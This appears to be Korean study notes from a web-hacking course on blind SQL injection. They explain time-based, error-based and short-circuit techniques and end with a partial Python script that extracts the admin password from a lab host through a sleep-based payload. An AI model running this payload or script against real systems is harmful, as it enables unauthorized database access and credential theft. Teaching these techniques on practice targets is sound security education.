               - 시간 지연을 이용해 참/거짓 여부를 판단
              - DBMS에서 제공하는 함수를 이용하거나, 무거운 연산과정을 발생시켜 쿼리 처리 시간을 지연시키는 heavy query 등 존재

              ```
              SELECT IF(1=1, sleep(1), 0);
              /*
              mysql> SELECT IF(1=1, sleep(1), 0);
              +----------------------+
              | IF(1=1, sleep(1), 0) |
              +----------------------+
              |                    0 |
              +----------------------+
              1 row in set (1.00 sec)
              */
              ```
              - MySQL
                  - sleep 함수
                  - benchmark 함수 - expr 식을 count 수만큼 실행하며 시간지연이 발생
                  - heavy query
              - MSSQL
                  - waitfor
                  - heavy query
              - SQLite
                  - heavy query

          - _Error Based Blind_
              - 임의적으로 에러 발생을 일으켜 참/거짓을 판단하는 공격 기법
              - Error Based은 에러 메시지를 통해 데이터가 출력되는 에러를 이용해야 하는 반면
                Error Based Blind는 에러 발생 여부만 확인하면 됨

          - _Short-circuit evaluation_
              - 로직 연산의 원리를 이용한 방법
              - A가 거짓이라면 B의 결과와는 상관 없이 결과가 거짓 따라서 실제롤 B식을 수행하지 않는 것을 의미

          - **Blind SQL Injection Tip-1**
              -  ASCII에서 출력 가능한 문자의 범위는 32~126으로 총 94개 문자 존재, 따라서 최악의 경우 94번의 요청을 전송해야함
              - 이는 비효율적이므로 다음과 같의 좀 더 효율적으로 수행하는 방법들이 존재함

              - _Binary Search_
                1. 범위 내의 중간 값을 지정하고 값을 비교
                2. 지정한 값이 찾고자 하는 값과 비교하고 범위를 조절
                3. 위 과정을 반복하여 특정한 값 찾음

              - _bit 연산_
                - ASCII는 7개의 비트를 통해 하나의 문자를 나타냄
                - 7번의 요청을 통해 한 바이트를 획들할 수 있음

          - **Blind SQL Injection Tip-2**
              - Blind SQL Injection은 다수의 요청을 통해 결과를 획득하는 공격 기법
              - 사용자가 직접 입력하는 방식은 물리적 한계 -> 스크립트를 작성하여 공격 수행

              - 예시
              ```
              #!/usr/bin/env python3
              import requests
              URL = "http://sqltest.dreamhack.io"
              DATA = ""
              for index in range(1, 100):
                for chars in range(32, 127):
                  payload = "/?username='or if((select ord(substr(password,%s,1)) from users where username='admin')=%s, sleep(2), 0)-- -" %(index, chars)
                  addr = URL + payload
                  ret = requests.get(addr)
                  loadTime = ret.elapsed.total_seconds()
                  if loadTime > 1.9:
                    DATA += chr(chars)